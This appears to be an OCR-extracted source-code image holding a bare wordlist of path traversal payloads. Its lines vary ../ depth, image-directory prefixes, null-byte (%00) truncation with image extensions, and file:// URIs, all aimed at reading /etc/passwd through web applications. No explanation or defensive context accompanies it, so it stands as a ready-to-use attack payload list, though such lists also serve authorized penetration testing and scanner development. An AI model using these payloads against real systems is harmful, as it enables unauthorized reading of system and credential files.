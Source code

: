 ```bash
/var/www/images/../../../etc/passwd%00
/var/www/images/../../../../etc/passwd%00
/var/www/images/../../../../../etc/passwd%00
/var/www/images/../../../../../../etc/passwd%00
/var/www/images/../../../../../../../etc/passwd%00
/var/www/images/../../../../../../../../etc/passwd%00
/images/../../../etc/passwd%00.jpg
/images/../../../../etc/passwd%00.jpg
/images/../../../../../etc/passwd%00.jpg
/images/../../../../../../etc/passwd%00.jpg
/images/../../../../../../../etc/passwd%00.jpg
/images/../../../../../../../../etc/passwd%00.jpg
/var/www/images/../../../etc/passwd%00.jpg
/var/www/images/../../../../etc/passwd%00.jpg
/var/www/images/../../../../../etc/passwd%00.jpg
/var/www/images/../../../../../../etc/passwd%00.jpg
/var/www/images/../../../../../../../etc/passwd%00.jpg
/var/www/images/../../../../../../../../etc/passwd%00.jpg
/images/../../../etc/passwd%00.png
/images/../../../../etc/passwd%00.png
/images/../../../../../etc/passwd%00.png
/images/../../../../../../etc/passwd%00.png
/images/../../../../../../../etc/passwd%00.png
/images/../../../../../../../../etc/passwd%00.png
/var/www/images/../../../etc/passwd%00.png
/var/www/images/../../../../etc/passwd%00.png
/var/www/images/../../../../../etc/passwd%00.png
/var/www/images/../../../../../../etc/passwd%00.png
/var/www/images/../../../../../../../etc/passwd%00.png
/var/www/images/../../../../../../../../etc/passwd%00.png
/images/../../../etc/passwd%00.jpeg
/images/../../../../etc/passwd%00.jpeg
/images/../../../../../etc/passwd%00.jpeg
/images/../../../../../../etc/passwd%00.jpeg
/images/../../../../../../../etc/passwd%00.jpeg
/images/../../../../../../../../etc/passwd%00.jpeg
/var/www/images/../../../etc/passwd%00.jpeg
/var/www/images/../../../../etc/passwd%00.jpeg
/var/www/images/../../../../../etc/passwd%00.jpeg
/var/www/images/../../../../../../etc/passwd%00.jpeg
/var/www/images/../../../../../../../etc/passwd%00.jpeg
/var/www/images/../../../../../../../../etc/passwd%00.jpeg
../etc/passwd%00.jpg
../../etc/passwd%00.jpg
../../../etc/passwd%00.jpg
../../../../etc/passwd%00.jpg
../../../../../etc/passwd%00.jpg
../../../../../../etc/passwd%00.jpg
../../../../../../../etc/passwd%00.jpg
../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../../../../../../etc/passwd%00.jpg
../../../../../../../../../../../../../../../etc/passwd%00.jpg
file:///etc/passwd%00.jpg
file://../etc/passwd%00.jpg
file://../../etc/passwd%00.jpg
file://../../../etc/passwd%00.jpg
file://../../../../etc/passwd%00.jpg
file://../../../../../etc/passwd%00.jpg
```